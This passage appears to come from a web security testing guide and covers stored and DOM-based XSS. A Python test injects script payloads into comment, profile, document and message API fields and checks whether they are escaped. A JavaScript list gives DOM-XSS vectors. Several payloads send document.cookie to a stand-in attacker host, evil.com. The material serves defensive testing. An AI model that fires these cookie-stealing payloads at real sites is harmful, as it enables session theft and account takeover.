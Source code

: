 ### 7.2 Stored XSS

```python
# Test for stored XSS in various fields
def test_stored_xss():
    xss_payloads = [
        "<script>fetch('//evil.com/'+document.cookie)</script>",
        "<img src=x onerror='navigator.sendBeacon(\"//evil.com\",document.cookie)'>",
        "<style>*{background:url('//evil.com/css')}</style>"
    ]
    
    # Test in different storage locations
    targets = [
        ("POST", "/api/comments", {"text": "PAYLOAD"}),
        ("PUT", "/api/profile", {"bio": "PAYLOAD"}),
        ("POST", "/api/documents", {"title": "PAYLOAD", "content": "test"}),
        ("POST", "/api/messages", {"subject": "PAYLOAD", "body": "test"})
    ]
    
    for method, endpoint, data_template in targets:
        for payload in xss_payloads:
            data = {k: v.replace("PAYLOAD", payload) 
                   for k, v in data_template.items()}
            
            # Store the payload
            response = make_request(method, endpoint, data)
            
            # Retrieve and check if payload is escaped
            if response.status_code == 200:
                check_xss_escaped(endpoint, payload)
```

### 7.3 DOM-based XSS

```javascript
// Test for DOM XSS vulnerabilities
const domXssTests = [
    // URL hash manipulation
    () => { window.location.hash = "#<img src=x onerror=alert(1)>"; },
    
    // URL parameter manipulation
    () => { 
        const url = new URL(window.location);
        url.searchParams.set('name', '<script>alert(1)</script>');
        window.history.pushState({}, '', url);
    },
    
    // PostMessage exploitation
    () => {
        window.postMessage({
            type: 'update',
            html: '<img src=x onerror=alert(1)>'
        }, '*');
    },
    
    // LocalStorage poisoning
    () => {
        localStorage.setItem('userData', JSON.stringify({
            name: '<script>alert(1)</script>'
        }));
        location.reload();
    }
];
```
